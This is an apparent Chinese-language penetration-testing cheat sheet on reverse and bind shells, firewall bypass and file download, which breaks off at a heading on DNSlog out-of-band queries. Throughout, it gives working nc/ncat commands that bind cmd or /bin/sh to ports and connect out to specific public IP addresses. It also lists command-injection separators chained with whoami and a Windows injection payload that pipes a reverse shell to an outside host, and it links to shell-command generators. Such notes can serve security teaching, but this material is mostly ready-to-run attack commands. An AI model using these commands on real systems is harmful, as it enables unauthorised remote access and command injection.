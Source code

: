 # 反弹SHELL&不回显带外&正反向连接&防火墙出入站&文件下载

\#常规基本渗透命令详解

https://blog.csdn.net/weixin_43303273/article/details/83029138

 

\#实用案例1：文件上传下载-解决无图形化&解决数据传输

命令生成：https://forum.ywhack.com/bountytips.php?download

Linux：wget curl python ruby perl java等

Windows：PowerShell Certutil Bitsadmin msiexec mshta rundll32等

 

\#实用案例2：反弹Shell命令-解决数据回显&解决数据通讯

命令生成：https://forum.ywhack.com/shell.php

1、正向连接：本地监听等待对方连接

Linux控制Windows

//绑定CMD到本地5566端口

nc -e cmd -lvp 5566

//主动连接目标5566

ncat 47.122.23.131 5566

 

Windows控制Linux

//绑定SH到本地5566端口

ncat -e /bin/sh -lvp 5566

//主动连接目标5566

nc 47.94.236.117 5566

 

2、反向连接：主动给出去，对方监听

//绑定CMD到目标5566端口

ncat -e /bin/sh 47.122.23.131 5566

//等待5566连接

nc -lvvp 5566

 

//绑定CMD到目标5566端口

nc -e cmd 47.94.236.117 5566

//等待5566连接

ncat -lvvp 5566

 

\#实际案例1：防火墙绕过-正向连接&反向连接&内网服务器

管道符：| (管道符号) ||（逻辑或） &&（逻辑与）  &(后台任务符号)

Windows->| & || &&

Linux->; | || & && ``(特有``和;)

例子：

ping -c 1 127.0.0.1 ; whoami

ping -c 1 127.0.0.1 | whoami

ping -c 1 127.0.0.1 || whoami

ping -c 1 127.0.0.1 & whoami

ping -c 1 127.0.0.1 && whoami

ping -c 1 127.0.0.1 `whoami`

 

1、判断windows

2、windows没有自带的nc

3、想办法上传nc 反弹权限

4、反弹

开启入站策略，采用反向连接

Linux：ncat -lvvp 5566

Windows：127.0.0.1 | nc -e cmd 47.94.236.117 5566

开启出站策略，采用正向连接

Linux：ncat -e cmd 47.122.23.131 5566

Windows：127.0.0.1 | nc -e cmd -lvvp 5566

正反向反弹案例-内网服务器

只能内网主动交出数据，反向连接

 

\#实际案例2：防火墙组合数据不回显-ICMP带外查询Dnslog

出站入站都开启策略（数据不回显）：OSI网络七层